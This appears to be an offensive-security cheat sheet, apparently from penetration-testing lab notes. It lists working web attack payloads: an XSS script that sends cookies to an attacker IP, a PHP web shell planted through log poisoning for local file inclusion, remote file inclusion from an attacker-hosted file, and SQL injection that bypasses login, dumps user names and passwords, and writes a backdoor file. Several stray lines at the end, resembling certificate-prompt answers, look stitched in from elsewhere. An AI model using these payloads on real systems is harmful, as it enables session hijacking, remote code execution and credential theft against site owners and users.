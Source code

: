 ### Stealing Cookies

```text
<script>
new Image().src="http://10.11.0.5/bogus.php?output="+document.cookie;
</script>

$ nc -nlvp 80
```

### Local File Inclusion

```text
$ nc -nv 10.11.1.35 80
(UNKNOWN) [10.11.1.35] 80 (http) open
<?php echo shell_exec($_GET['cmd']);?>

-- writes php code into c:\xampp\apache\logs\access.log

http://10.11.1.35/addguestbook.php?name=a&comment=b&cmd=ipconfig&LANG=../../../../../
../../xampp/apache/logs/access.log%00
```

### Remote File Inclusion

```text
http://10.11.1.35/addguestbook.php?name=a&comment=b&LANG=http://10.11.0.5/evil.txt

$ nc -nlvp 80

$ cat /var/www/html/evil.txt
<?php echo shell_exec("ipconfig");?>

$ systemctl start apache2
```

### SQL Injection

in username field enter:  

```text
wronguser' OR 1=1 LIMIT 1;#
admin' or 1=1 limit 1 -- 
```

```text
.../comment.php?id=738 order by 1

.../comment.php?id=738 union all select 1,2,3,4,5,6

.../comment.php?id=738 union all select 1,2,3,4,@@version,6

.../comment.php?id=738 union all select 1,2,3,4,user(),6

.../comment.php?id=738 union all select 1,2,3,4,table_name,6 FROM
information_schema.tables

.../comment.php?id=738 union all select 1,2,3,4,column_name,6 FROM
information_schema.columns where table_name='users'

.../comment.php?id=738 union select 1,2,3,4,concat(name,0x3a,
password),6 FROM users

.../comment.php?id=738 union all select 1,2,3,4,"<?php echo
shell_exec($_GET['cmd']);?>",6 into OUTFILE 'c:/xampp/htdocs/backdoor.php'
```


[Unknown]: Ownage Dept
[Unknown]: Offensive Security
[Unknown]: localhost
[Unknown]: 127.0.0.1
[Unknown]: US
[no]: yes